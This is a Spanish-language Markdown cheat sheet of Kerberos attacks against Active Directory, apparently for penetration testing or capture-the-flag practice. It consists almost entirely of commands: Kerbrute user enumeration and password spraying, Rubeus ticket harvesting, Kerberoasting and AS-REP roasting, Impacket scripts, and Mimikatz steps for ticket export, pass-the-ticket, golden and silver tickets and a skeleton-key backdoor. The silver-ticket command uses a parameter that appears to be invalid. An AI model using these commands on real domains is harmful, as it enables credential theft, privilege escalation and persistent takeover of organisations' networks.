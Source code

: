# Kerberos

## Enumeración de usuarios 
### Kebrute
```
kerbrute userenum --dc DC.tld -d DOMAIN.tld Userlist.txt
```

## Ticket Harvesting
### Rubeus
```
Rubeus.exe harvest /interval:30
```

## Password Spray
### Rubeus
Esto devolvera un ticket para poder ejecutar un PTT
```
Rubeus.exe brute /password:Password1 /noticket
```
### Kebrute
```
kerbrute passwordspray --dc DC.tld -d DOMAIN.tld Userlist.txt PASS
``` 

## Kerberoasting
### Rubeus
```
Rubeus.exe kerberoast
```
### Impacket
```
GetUserSPNs.py DC.tld/USER:PASS -dc-ip 10.10.43.249 -request
```

## ASREPRoasting
### Rubeus
```
Rubeus.exe asreproast 
```
### Impacket
```
GetNPUsers.py domain.tld/user:password
```

## Mimikatz
### Find tickets
```
sekurlsa::tickets /export
```
### PTT
```
kerberos::ptt <ticket>
```
### Golden Ticket
```
lsadump::lsa /inject /name:krbtgt
Kerberos::golden /user:Administrator /domain:DC.tld /sid:SID /krbtgt:NTLMHASH /id:UID
```
### Silver Ticket
```
lsadump::lsa /inject /name:serviceacc
Kerberos::golden /user:Administrator /domain:DC.tld /sid:SID /serviceacc:NTLMHASH /id:UID
```
### Skeleton Key
```
misc::skeleton
```
